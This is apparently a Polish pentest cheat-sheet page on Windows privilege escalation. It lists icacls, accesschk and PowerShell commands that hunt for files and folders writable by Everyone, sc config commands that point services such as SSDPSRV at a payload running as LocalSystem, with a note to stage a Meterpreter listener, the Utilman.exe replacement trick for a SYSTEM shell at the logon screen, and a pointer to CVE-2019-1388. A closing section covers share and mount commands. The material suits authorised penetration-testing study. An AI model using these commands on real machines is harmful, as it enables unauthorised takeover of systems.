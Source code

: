 
<p>!Jak znajdziesz coś do czego masz prawo to od razu zmień ustawienia na EVERYONE<br>#<mark style="background-color:#bbffac" class="has-inline-color">icacls „C:\Puppet”</mark> (sprawdzanie prawa zapisu do katalogu :błąd quotet path): <strong> </strong>(Puppet o tnazwa folderu, <strong><span style="text-decoration: underline;">pamiętaj aby nie było \</span></strong> )<br>#<strong><a href="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls">icacls</a> legenda</strong>: I ; IO – oznacza dziedziczenie prawa z folderów wyżej ; F – Full access  ;  M- Modify access  ;  RX – Read and execute access ;; R – Read-only access  ;  W – Write-only access ; D – delete ; GA generic all<br>#icacls „C:\Program Files\Serviio\bin\ServiioService.exe” (sprawdzanie uprawnien do konkretnego programu)<br>#cd „C:\Program Files” (także: x86)) #&gt; <mark style="background-color:#ceffc3" class="has-inline-color">cmd.exe /c dir /a /o /q</mark> (by S1REN: możesz też sprawdzić np. Windows/Temp  ; /o to sortowanie  ;  /a wyswietla i katalogi i pliki  ; /q  wyswietla wlasciciela pliku )<br>#wyszukiwanie plików do <strong>nadpisania</strong>: Get-ChildItem „C:\Program Files” – Recurse | Get-ACL | ?{$_.AccessToString -match”Everyone\sAllow\s\sModify”}<br># w cmd: echo %path% – szukamy nietypowych folderów<br>#Get-ChildItem „C:\Program Files” – Recurse | Get-ACL | ?{$_.AccessToString -match „Everyone\sAllow\s\sModify”} (<a href="https://3haker.pl/privilege-escalation/">oscp</a>)<br>#accesschk.exe -uws „Everyone” „C:\Program Files” (szuka rekurencyjnie pliku lub katalogu z możliwością zapisu przez Everyone, <a href="https://3haker.pl/privilege-escalation/">oscp</a>)<br>#Szukaj plików które mają zapis EVERYONE i podmień je<br>#net user mój_user<br>#whoami /priv<br>#cd %TEMP%<br><strong>###Accesschk.exe###</strong><br>#accesschk.exe -uwqs Users c:*.* (Find ALL weak file permissions per drive)<br>#accesschk.exe -uwqs „Authenticated Users” c<em>:*.*</em> (you would be surprised if you have a real user, ale chyba Win 8)<br>#accesschk.exe -uws „Everyone” „C:\Program Files” (szuka programów z możliwością zapisu przez Everyone, <a href="https://3haker.pl/enumerating-readable-writable-files-and-directories/">oscp</a>)<br>#accesschk.exe -ucqv Spooler (sprawdzanie uprawnien dla usługi np. Spooler)<br>#accesschk.exe -dqv „C:\Python27” (spraawdzenie naszych uprawnień w konkretnym folderze)<br>#accesschk.exe -ucqv [service_name]<br>## Weak folder permision find:<br>#accesschk.exe -uwdqs Users c:\<br>#accesschk.exe -uwdqs „Authenticated Users” c:\ (byc bez c:)<br>#accesschk.exe -uwqs Users c:*.*<br>#accesschk.exe -uwqs „Authenticated Users” c:*.*<br>#accesschk.exe -uws „Everyone” „C:\Program Files”<br><strong>###sc###</strong><br>#sc config UPNPHOST binpath= „C:\Tools\sirenMaint.exe”<br>sc config UPNPHOST obj= „.\LocalSystem” password= „”<br>sc config SSDPSRV binpath= „C:\inetpub\siren\sirenMaint.exe”<br>sc config SSDPSRV obj= „.\LocalSystem” password= „”<br>sc config SSDPSRV start= „demand”<br>(Now, Stage matching msfvenom Payload Listener in Meterpreter)<br>net stop SSDPSRV<br>net start SSDPSRV<br><strong>###Próba podmiany pliku do którego mamy prawo###</strong><br>#takeown /f C:\Windows\System32\Utilman.exe<br>#icacls C:\Windows\System32\Utilman.exe /grant Everyone:F<br>#C:\Windows\System32&gt; copy cmd.exe utilman.exe<br>#&gt; Click the Ease of Access button on the logon screen to get a shell with NT Authority\System privileges.<br><strong>###Tools###</strong><br>#jak Watson wykryje CVE-2019-1388 to możesz eskalacja wg <a href="https://github.com/jas502n/CVE-2019-1388">github</a> i <a href="https://3haker.pl/udemy-kurs-active-directory/">opis</a> (bedziesz mógł dodac nowego usera jako lokalnego admina)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Mount" ez-toc-data-id="#Mount"></span>Mount<span class="ez-toc-section-end"></span></h4>



<p>#/<a href="https://github.com/p1sc3s/Symlink-Tools-Compiled">CreateMountpoint</a>.exe zobacz <a href="https://3haker.pl/fish-practice/">lab</a> ;  .\CreateMountPoint.exe „C:\mount C:\Windows\System32” (folder mount stworz recznie)<br>#create share on Windows: NET SHARE = /remark: „This is my share.”<br>#mount windows share: NET USE Z: \ \COMPUTER_NAME\SHARE_NAME /PERSISTENT:YES<br>#unmount share:NET USE Z: /DELETE<br>#delete share całkowicie: NET SHARE /DELETE<br>#mountvol (listowanie zamontowanych dysków, w wynikach szukaj: No Mount Points)<br>#net share<br>#net use<br>#net share = /remark: „This is my share.” (CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE)<br>#net use Z: \computer_name\share_name /PERSISTENT:YES (MOUNT A WINDOWS SHARE FROM THE COMMAND LINE)</p>
